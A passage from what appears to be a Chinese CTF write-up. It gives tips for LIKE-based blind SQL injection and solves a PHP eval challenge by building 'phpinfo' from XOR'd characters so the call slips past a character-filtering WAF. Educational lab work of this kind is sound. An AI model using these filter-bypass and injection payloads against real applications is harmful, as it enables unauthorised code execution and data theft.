 注意几个点，dic字典里要把下划线放到最后一个位置，因为like模糊查询里下划线能匹配任意单个字符，不要有百分号

like后面加一个binary用于区分大小写

![](./images/1699777981-image.png)

又拿了一个一血，喜喜🤭

### EzRce

源码如下

```
 <?php
include('waf.php');
session_start();
show_source(__FILE__);
error_reporting(0);
$data=$_GET['data'];
if(waf($data)){
    eval($data);
}else{
    echo "no!";
}
?> 
```

用python跑了一下，能用的字符有这些

```
aelvAELV!"#$%&'()*+,-./:;<=>?@[\]^_`|
```

用异或构造字符串phpinfo()

```
<?php
$e=('L'^'<').('L'^'$').('L'^'<').('L'^'%').('"'^'L').('L'^'*').('#'^'L');//phpinfo
($e)();
#在p神的文章中学到的
```
